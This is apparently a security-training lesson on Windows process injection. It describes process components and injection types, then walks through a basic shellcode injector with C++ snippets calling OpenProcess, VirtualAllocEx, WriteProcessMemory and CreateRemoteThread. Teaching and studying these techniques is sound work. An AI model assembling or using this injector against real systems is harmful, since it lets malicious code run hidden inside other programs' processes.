

# Task 2 - Abusing Processes

Applications running on your operating system can contain one or more processes. Processes maintain and represent a program that's being executed.

Processes have a lot of other sub-components and directly interact with memory or virtual memory, making them a perfect candidate to target. The table below describes each critical component of processes and their purpose.

| Process Component | Purpose |
|---|---|
| Private Virtual Address Space | Virtual memory addresses the process is allocated |
| Executable Program | Defines code and data stored in the virtual address space |
| Open Handles | Defines handles to system resources accessible to the process |
| Security Context | The access token defines the user, security groups, privileges, and other security
information |
| Process ID | Unique numerical identifier of the process |
| Threads | Section of a process scheduled for execution |

For more information about processes, check out the Windows Internals room.

Process injection is commonly used as an overarching term to describe injecting malicious code into a process through legitimate functionality or components. We will focus on four different types of process injection in this room, outlined below.

| Injection Type | Function |
|---|---|
| Process Hollowing | Inject code into a suspended and "hollowed" target process |
| Thread Execution Hijacking | Inject code into a suspended target thread |
| Dynamic-link Library Injection | Inject a DLL into process memory |
| Portable Executable Injection | Self-inject a PE image pointing to a malicious function into a target process |

There are many other forms of process injection outlined by T1055.

At its most basic level, process injection takes the form of shellcode injection.

At a high level, shellcode injection can be broken up into four steps:

1. Open a target process with all access rights.
2. Allocate target process memory for the shellcode.
3. Write shellcode to allocated memory in the target process.
4. Execute the shellcode using a remote thread.

The steps can also be broken down graphically to depict how Windows API calls interact with process memory.



We will break down a basic shellcode injector to identify each of the steps and explain in more depth below.

At step one of shellcode injection, we need to open a target process using special parameters. `OpenProcess` is used to open the target process supplied via the command-line.

```cpp
processHandle = OpenProcess(
  PROCESS_ALL_ACCESS, // Defines access rights
  FALSE, // Target handle will not be inherited
  DWORD(atoi(argv[1])) // Local process supplied by command-line arguments
);
```

At step two, we must allocate memory to the byte size of the shellcode. Memory allocation is handled using `VirtualAllocEx`. Within the call, the `dwSize` parameter is defined using the `sizeof` function to get the bytesof shellcode to allocate.

```cpp
remoteBuffer = VirtualAllocEx(
  processHandle, // Opened target process
  NULL,
  sizeof shellcode, // Region size of memory allocation
  (MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
  PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the committed pages
);
```

At step three, we can now use the allocated memory region to write our shellcode. `WriteProcessMemory` is commonly used to write to memory regions.

```cpp
WriteProcessMemory(
  processHandle, // Opened target process
  remoteBuffer, // Allocated memory region
  shellcode, // Data to write
  sizeof shellcode, // byte size of data
  NULL
);
```

At step four, we now have control of the process, and our malicious code is now written to memory. To execute the shellcode residing in memory, we can use `CreateRemoteThread`; threads control the execution of processes.

```cpp
remoteThread = CreateRemoteThread(
  processHandle, // Opened target process
  NULL,
  0, // Default size of the stack
  (LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
  NULL,
  0, // Ran immediately after creation
  NULL
);
```

We can compile these steps together to create a basic process injector. Use the C++ injector provided and experiment with process injection.

Shellcode injection is the most basic form of process injection; in the next task, we will look at how we can modify and adapt these steps for process hollowing.
